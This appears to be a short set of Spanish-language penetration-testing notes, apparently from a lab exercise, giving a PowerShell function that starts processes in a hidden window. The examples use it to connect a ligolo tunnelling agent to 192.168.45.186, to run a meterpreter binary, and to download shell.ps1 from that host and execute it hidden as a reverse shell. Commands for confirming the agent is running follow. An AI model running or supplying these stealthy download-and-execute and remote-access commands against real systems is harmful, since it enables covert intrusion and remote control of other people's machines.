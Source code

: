 #### funcion para ejecutar procesos en background y no bloquear el CLI

```powershell
function bg_exec($cmd) {
    Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-nop -w hidden -c $cmd"
}
```

* Ejecucion Ejemplos: 

- ligolo-agent: `bg_exec "C:\Users\eric.wallows\Documents\agent.exe -connect 192.168.45.186:11601 -ignore-cert"`

- meterpreter: ` bg_exec "C:\Users\eric.wallows\Documents\met.exe`

- powershell: `bg_exec "iwr -uri http://192.168.45.186/shell.ps1 -OutFile C:\temp\rev.ps1; powershell -nop -w hidden -c C:\temp\rev.ps1"`


#### Verificacion:

```powershell
Get-Process | ? { $_.Path -like "*ligolo*" }

# o

tasklist | findstr ligolo

```
